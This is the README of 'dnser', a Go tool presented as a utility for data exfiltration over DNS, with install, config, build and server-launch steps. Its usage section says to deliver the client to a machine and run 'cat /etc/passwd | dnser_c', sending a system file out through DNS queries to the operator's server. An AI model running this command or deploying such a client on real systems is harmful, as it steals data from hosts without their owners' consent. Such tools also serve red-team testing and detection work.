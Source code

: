 

<!-- Improved compatibility of back to top link: See: https://github.com/fedoik/dnser/pull/73 -->
<!-- <a id="readme-top"></a> -->
<!--
*** Thanks for checking out the Best-README-Template. If you have a suggestion
*** that would make this better, please fork the repo and create a pull request
*** or simply open an issue with the tag "enhancement".
*** Don't forget to give the project a star!
*** Thanks again! Now go create something AMAZING! :D
-->



<!-- PROJECT SHIELDS -->
<!--
*** I'm using markdown "reference style" links for readability.
*** Reference links are enclosed in brackets [ ] instead of parentheses ( ).
*** See the bottom of this document for the declaration of the reference variables
*** for contributors-url, forks-url, etc. This is an optional, concise syntax you may use.
*** https://www.markdownguide.org/basic-syntax/#reference-style-links
-->
<!-- [![Contributors][contributors-shield]][contributors-url]
[![Forks][forks-shield]][forks-url]
[![Stargazers][stars-shield]][stars-url]
[![Issues][issues-shield]][issues-url]
[![project_license][license-shield]][license-url] -->


<!-- PROJECT LOGO -->
<br />
<div align="center">
  <a id="readme-top"></a>
  <a href="https://github.com/fedoik/dnser">
    <img src="imgs/help.png" alt="Logo">
  </a>

  <h3 align="center">dnser</h3>

  <p align="center">
    Utility for data exfiltration using the DNS protocol!
    <br />
    <a href="https://github.com/fedoik/dnser"><strong>Explore the docs »</strong></a>
    <br />
    <br />
    <a href="#demo">View Demo</a>
    ·
    <a href="https://github.com/fedoik/dnser/issues/new?labels=bug&template=bug-report---.md">Report Bug</a>
    ·
    <a href="https://github.com/fedoik/dnser/issues/new?labels=enhancement&template=feature-request---.md">Request Feature</a>
  </p>
</div>



<!-- TABLE OF CONTENTS -->
 ## Table of Contents
<!--<details>
  <summary>Table of Contents</summary> -->
  <ol>
    <li>
      <a href="#about-the-project">About The Project</a>
      <ul>
        <li><a href="#built-with">Built With</a></li>
      </ul>
    </li>
    <li>
      <a href="#demo">Demo</a>
    </li>
    <li>
      <a href="#getting-started">Getting Started</a>
      <ul>
        <li><a href="#prerequisites">Prerequisites</a></li>
        <li><a href="#installation">Installation</a></li>
      </ul>
    </li>
    <li><a href="#usage">Usage</a></li>
    <li><a href="#roadmap">Roadmap</a></li>
    <li><a href="#contributing">Contributing</a></li>
    <li><a href="#license">License</a></li>
    <li><a href="#contact">Contact</a></li>
    <li><a href="#acknowledgments">Acknowledgments</a></li>
  </ol>
<!-- </details> -->



<!-- ABOUT THE PROJECT -->
## About The Project

![project_idea](./imgs/dnser_schema.png)

<p align="right">(<a href="#readme-top">back to top</a>)</p>



### Built With

* [![Go][Go.i]][Go-url]
<!-- * [![React][React.js]][React-url]
* [![Vue][Vue.js]][Vue-url]
* [![Angular][Angular.io]][Angular-url]
* [![Svelte][Svelte.dev]][Svelte-url]
* [![Laravel][Laravel.com]][Laravel-url]
* [![Bootstrap][Bootstrap.com]][Bootstrap-url]
* [![JQuery][JQuery.com]][JQuery-url] -->

<p align="right">(<a href="#readme-top">back to top</a>)</p>

## Demo

![demo](./imgs/demo.gif)


<p align="right">(<a href="#readme-top">back to top</a>)</p>

<!-- GETTING STARTED -->
## Getting Started

This section explains how to install the utility.

### Prerequisites

go version >= 1.21.5
* go
  ```sh
  go version
  ```

### Installation

1. Clone the repo
   ```sh
   git clone https://github.com/fedoik/dnser.git
   ```
2. Go to folder
   ```sh
   cd dnser/src/
   ```
3. Install go packages
   ```sh
   go mod tidy
   ```
3. Build the server binary
   ```sh
    go build server.go
   ```

<p align="right">(<a href="#readme-top">back to top</a>)</p>



<!-- USAGE EXAMPLES -->
## Usage

Before you start using it, you need to build the client binary, after which you can up the server.

1. Create config
  ```yaml
  server:
    port: <dnsport>
    host: <ip>
    domain: <domain for resolving>

  client:
    projectDir: <path to dnser/src/ (example: /tmp/dnser/src/)>
  ```
2. Build client. We get the path to the client binary
  ```
  ./server -config <path to config> -build
  ```
3. Start the server
  ```
  ./server -config <path to config> -serve
  ```
4. After that we deliver the client and launch
  ```
  cat /etc/passwd | dnser_c
  ```


_For more examples, please refer to the [SOON](SOON)_

<p align="right">(<a href="#readme-top">back to top</a>)</p>

<!-- ![help](./imgs/help.png) -->

<!-- ROADMAP -->
## Roadmap

- [ ] Rewrite the DNS resolver so as not to use CGO. (Cross -platform)
- [ ] Rate limit for dns requests (From config)
- [ ] Recursive resolver
- [ ] Сhange subdomain size from config
    - [ ] Fix size
    - [ ] Random size
- [ ] Output into file

See the [open issues](https://github.com/fedoik/dnser/issues) for a full list of proposed features (and known issues).

<p align="right">(<a href="#readme-top">back to top</a>)</p>



<!-- CONTRIBUTING -->
## Contributing

If you have a suggestion that would make this better, please fork the repo and create a pull request. You can also simply open an issue with the tag "enhancement".
Don't forget to give the project a star! Thanks again!

1. Fork the Project
2. Create your Feature Branch (`git checkout -b feature/AmazingFeature`)
3. Commit your Changes (`git commit -m 'Add some AmazingFeature'`)
4. Push to the Branch (`git push origin feature/AmazingFeature`)
5. Open a Pull Request

<p align="right">(<a href="#readme-top">back to top</a>)</p>

<!-- ### Top contributors:

<a href="https://github.com/fedoik/dnser/graphs/contributors">
  <img src="https://contrib.rocks/image?repo=fedoik/dnser" alt="contrib.rocks image" />
</a> -->



<!-- LICENSE -->
## License

Distributed under the project_license. See `LICENSE.txt` for more information.

<p align="right">(<a href="#readme-top">back to top</a>)</p>



<!-- CONTACT -->
## Contact

Tg - [@fed01k](https://t.me/fed01k)

Project Link: [https://github.com/fedoik/dnser](https://github.com/fedoik/dnser)

<p align="right">(<a href="#readme-top">back to top</a>)</p>



<!-- ACKNOWLEDGMENTS -->
<!-- ## Acknowledgments

* []()
* []()
* []()

<p align="right">(<a href="#readme-top">back to top</a>)</p> -->



<!-- MARKDOWN LINKS & IMAGES -->
<!-- https://www.markdownguide.org/basic-syntax/#reference-style-links -->
[Go-url]: https://go.dev/
[Go.i]: https://img.shields.io/badge/Go-00ADD8?logo=Go&logoColor=white&style=for-the-badge


[contributors-shield]: https://img.shields.io/github/contributors/fedoik/dnser.svg?style=for-the-badge
[contributors-url]: https://github.com/fedoik/dnser/graphs/contributors
[forks-shield]: https://img.shields.io/github/forks/fedoik/dnser.svg?style=for-the-badge
[forks-url]: https://github.com/fedoik/dnser/network/members
[stars-shield]: https://img.shields.io/github/stars/fedoik/dnser.svg?style=for-the-badge
[stars-url]: https://github.com/fedoik/dnser/stargazers
[issues-shield]: https://img.shields.io/github/issues/fedoik/dnser.svg?style=for-the-badge
[issues-url]: https://github.com/fedoik/dnser/issues
[license-shield]: https://img.shields.io/github/license/fedoik/dnser.svg?style=for-the-badge
[license-url]: https://github.com/fedoik/dnser/blob/main/LICENSE.txt
[linkedin-shield]: https://img.shields.io/badge/-LinkedIn-black.svg?style=for-the-badge&logo=linkedin&colorB=555
[linkedin-url]: https://linkedin.com/in/linkedin_username
[product-screenshot]: images/screenshot.png
[React.js]: https://img.shields.io/badge/React-20232A?style=for-the-badge&logo=react&logoColor=61DAFB
[React-url]: https://reactjs.org/
[Vue.js]: https://img.shields.io/badge/Vue.js-35495E?style=for-the-badge&logo=vuedotjs&logoColor=4FC08D
[Vue-url]: https://vuejs.org/
[Angular.io]: https://img.shields.io/badge/Angular-DD0031?style=for-the-badge&logo=angular&logoColor=white
[Angular-url]: https://angular.io/
[Svelte.dev]: https://img.shields.io/badge/Svelte-4A4A55?style=for-the-badge&logo=svelte&logoColor=FF3E00
[Svelte-url]: https://svelte.dev/
[Laravel.com]: https://img.shields.io/badge/Laravel-FF2D20?style=for-the-badge&logo=laravel&logoColor=white
[Laravel-url]: https://laravel.com
[Bootstrap.com]: https://img.shields.io/badge/Bootstrap-563D7C?style=for-the-badge&logo=bootstrap&logoColor=white
[Bootstrap-url]: https://getbootstrap.com
[JQuery.com]: https://img.shields.io/badge/jQuery-0769AD?style=for-the-badge&logo=jquery&logoColor=white
[JQuery-url]: https://jquery.com 